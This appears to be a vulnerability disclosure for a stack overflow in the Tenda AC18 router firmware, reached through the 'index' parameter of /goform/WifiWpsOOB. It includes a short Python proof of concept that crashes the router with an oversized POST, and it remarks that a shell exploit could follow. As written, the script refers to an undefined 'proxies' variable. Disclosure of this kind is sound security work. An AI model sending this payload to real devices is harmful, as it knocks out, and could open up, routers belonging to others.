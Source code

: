 # Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/WifiWpsOOB.   The contents obtained by the index parameter are passed to nptr, and then the contents matched by nptr  and put into the s without size checking, resulting in a stack overflow.
![](img/2.png#center)
<hr/>
![](img/3.png#center)

## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/WifiWpsOOB'


headers = {"Cookie": "password=You cookie"}
data = {
    'index': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data, proxies=proxies)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
